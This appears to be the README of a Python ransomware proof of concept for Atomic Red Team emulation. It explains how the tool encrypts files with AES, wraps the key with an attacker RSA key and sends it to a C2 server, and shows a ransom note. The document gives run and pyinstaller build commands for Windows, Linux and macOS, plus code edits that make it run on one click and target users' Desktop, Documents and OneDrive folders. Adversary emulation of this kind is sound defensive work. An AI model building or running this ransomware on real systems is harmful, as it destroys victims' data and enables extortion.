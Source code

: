 # Ransomware-PoC
A simple python ransomware PoC that can be used for Atomic Red Team: **ATT&CK Technique: Data Encrypted for Impact (T1486)**. The project is built off [CryptSky](https://github.com/deadPix3l/CryptSky) and full credits goes to deadPix3l for his code. The updated code demonstrates a typical ransomware flow and it is just one of many ways to perform ransomware encryption.

 TLDR:
 1. Generates AES key to encrypt local file (hardcoded in PoC).
 2. The attacker's embedded RSA public key (intentionally hardcoded in PoC) is used to encrypt the AES key. The private key is already stored in the attacker's C2 server. The encrypted text is sent to the C2 server and displayed for the victim.
 3. Ransom note is shown. When the ransom is paid, a decryptor is provided. 
 
**Warning**: Be extra careful of running the program as it will modify files. Ensure the path is correct and be wary in running with administrative privileges.

# Supported
* python3 (python2 for Linux/macOS should work)
* Windows, Linux and macOS

# Versions
There are two versions:

Version 1: main.py
- Basic version - Terminal Only

Version 2: main_v2.py
- Advanced version
- Ransom note pop up
- Exfiltrate key back to C2 given domain and port

# How to run
Install dependencies:
```bash
pip3 install pycryptodome
```

Default:
```
Encrypt: python3 main.py -e or python3 main_v2.py -e
Decrypt: python3 main.py -d or python3 main_v2.py -e
```

Windows with specific path:
```
Encrypt: python3 main_v2.py -p "C:\users\jimmy\desktop\test_ransomware" -e
Decrypt: python3 main_v2.py -p "C:\users\jimmy\desktop\test_ransomware" -d
```

Linux/macOS with specific path:
```
Encrypt: python3 main_v2.py -p "/home/jimmy/test_ransomware" -e
Decrypt: python3 main_v2.py -p "/home/jimmy/test_ransomware" -d
```

Variables to change:
* Ransomware Extension [default: .wasted for WastedLocker]
* AES Key
* RSA Public key
* RSA Private key (to be removed). Only used for decryptor.
* Domain and port for exfiltration (main_v2)

NB: As this is simply a PoC for Atomic Red Team, there is no real need to change the keys or other variables.

# Standalone Executable
Tested with python 2.7 with pyinstaller 3.6 and python 3.7 with pyinstaller 4.0. Please note that python 3.8 with pyinstaller 4.0 have known issues as this was incompatible with macOS.

Windows and Linux:
```bash
pip3 install pyinstaller
pyinstaller --onefile main_v2.py or py -m PyInstaller --onefile main_v2.py
```

macOS:
```
(python 3.7)
python3 -m pip install pyinstaller
pyinstaller --onefile main_v2.py

(python 2.7)
pip install -I pyinstaller==3.6
python -m PyInstaller --onefile main_v2.py
```

**UPDATE**: These are out-of-date

See `/bin` folder for binaries.


Windows with specific path:
```
Encrypt: main_v2.exe -p "C:\users\jimmy\desktop\test_ransomware" -e
Decrypt: main_v2.exe -p "C:\users\jimmy\desktop\test_ransomware" -d
```

Linux with specific path:
```
Encrypt: ./main_v2 -p "/home/jimmy/test_ransomware" -e
Decrypt: ./main_v2 -p "/home/jimmy/test_ransomware" -d
```

macOS with specific path:
```
Encrypt: ./main_v2_macos_py2 -p "/Users/jimmy/test_ransomware" -e
Decrypt: ./main_v2_macos_py2 -p "/Users/jimmy/test_ransomware" -d
```

## Miscellaneous 
### One-click execution

I originally added arguments to prevent accidental clicks and mess up. To simulate a one-click malware, comment and uncomment the following:

Comment
```python
if len(sys.argv) <= 1:
    print('[*] Ransomware - PoC\n')
    # banner()        
    print('Usage: python3 main.py -h')
    print('{} -h for help.'.format(sys.argv[0]))
    exit(0)

# Parse arguments
args = parse_args()
encrypt = args.encrypt
decrypt = args.decrypt

absolute_path = str(args.path)
 ```   

Uncomment
```python
absolute_path = "None"
encrypt = True 
decrypt = False
```

### Multiple folders
There is support for multiple paths, add them as such:

```python
startdirs = [os.environ['USERPROFILE'] + '\\Desktop', 
                        os.environ['USERPROFILE'] + '\\Documents',
                        os.environ['USERPROFILE'] + '\\Music',
                        os.environ['USERPROFILE'] + '\\Desktop',
                        os.environ['USERPROFILE'] + '\\Onedrive']
```

# Demo
#### Version 1
![Ransomware-PoC](/demo/download.gif)

#### Version 2
![main_v2-PoC](/demo/main_v2.png)


# Additional Features
* Added RSA asymmetric encryption of the AES key.
* Added autodetection on Windows, Linux or macOS.
* Added path argument to specify a directory.
* Fixed handling of renaming files with adding/removing of the ransomware extension.
* Added ransomware note pop up.
* Added exfiltration of key back to C2.

# Credit
- [CryptSky](https://github.com/deadPix3l/CryptSky) (deadPix3l and contributors) for base project
- [Demonware (Cerberus)](https://github.com/StrangerealIntel/Cerberus/blob/abd7d069edc2009a33ae1102f54abc935452e766/Demonware/2020-09-15/Demonware.py)  (StrangerealIntel) for ransom image and exfiltration
